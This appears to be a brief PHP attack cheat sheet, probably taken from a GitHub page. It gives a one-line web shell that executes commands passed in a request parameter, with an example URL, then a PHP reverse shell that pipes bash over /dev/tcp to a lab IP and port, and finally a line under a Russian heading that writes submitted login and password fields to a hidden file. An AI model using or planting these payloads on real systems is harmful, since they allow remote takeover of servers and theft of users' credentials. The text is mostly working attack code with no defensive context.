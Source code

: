 # PHP

# CMD
    <?php system($_REQUEST['pwn']); ?>

  inddex.php?pwn=ls

# ReverseShell

<?php system ('bash -c "bash -i >& /dev/tcp/10.10.14.4/4444 0>&1"'); ?>

# Запись в файл переменных

file_put_contents(".max", $_POST['log'] . ":" . $_POST['pwd'] . "\n" , FILE_APPEND);
